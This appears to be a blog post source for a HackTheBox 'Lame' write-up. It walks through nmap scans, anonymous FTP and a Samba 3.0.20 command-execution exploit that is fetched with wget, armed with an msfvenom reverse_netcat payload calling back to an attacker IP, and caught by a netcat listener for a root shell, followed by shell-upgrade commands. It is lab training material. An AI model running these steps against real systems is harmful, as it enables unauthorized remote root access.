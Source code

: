 ```yaml
---
layout: post
title: Lame - HackTheBox
slug: lame-hackthebox
date: '2021-11-07T21:38:18.350Z'
---
```


# Recon
Starting a port scan with nmap:
{% highlight shell %}
IP=10.10.10.3
sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn $IP -oG nmap/initial
{% endhighlight  %}
![nmap-lame]({{ site.baseurl }}/images/lame/1.jpg)

We can scan with nmap scripts for version and vulnerabilities associated with the ports mentioned above:
{% highlight shell %}
sudo nmap -p21,445,139,22,3632 -sCV $IP -oG nmap/targeted
{% endhighlight  %}

# FTP - Port 21
![nmap-lame]({{ site.baseurl }}/images/lame/ftp1.JPG)

We can log in with de anonymous user, but it is empty.

![ftp-anon]({{ site.baseurl }}/images/lame/ftp2.jpg)

We see that the version of the FTP server is vulnerable (searchsploit). Using a python exploit and metasploit we have not been able to access.

![ftp-exploit]({{ site.baseurl }}/images/lame/ftp3.jpg)

# Samba - Port 445

![samba-exploit]({{ site.baseurl }}/images/lame/samba.jpg)


Searching in searchsploit we can see that samba is vulnerable to remote command execution. We are going to look for a Python script to exploit the vuln (according to searchsploit there was only for metasploit, so...) :
{% highlight shell %}
wget https://raw.githubusercontent.com/macha97/exploit-smb-3.0.20/master/exploit-smb-3.0.20.py
{% endhighlight  %}

Next, we will see the script and we will change the payload with msfvenom with our IP address:
{% highlight shell %}
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.11 LPORT=443 -f python
{% endhighlight  %}
As we can see, it is not necessary to change anything else. We will have to install pysmb (pip install pysmb).

In the other hand, we should listen with netcat by 443 port (nc -lvp 443) that it returns a root shell. Searching for flags at this point is trivial.

# BONUS - Spawning a TTY
{% highlight shell %}
which python                     # (python?)
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL_Z
stty raw -echo; fg
ENTER y ENTER
export TERM=xterm
export SHELL=bash
stty rows Y columns X            # (stty -a)
{% endhighlight  %}
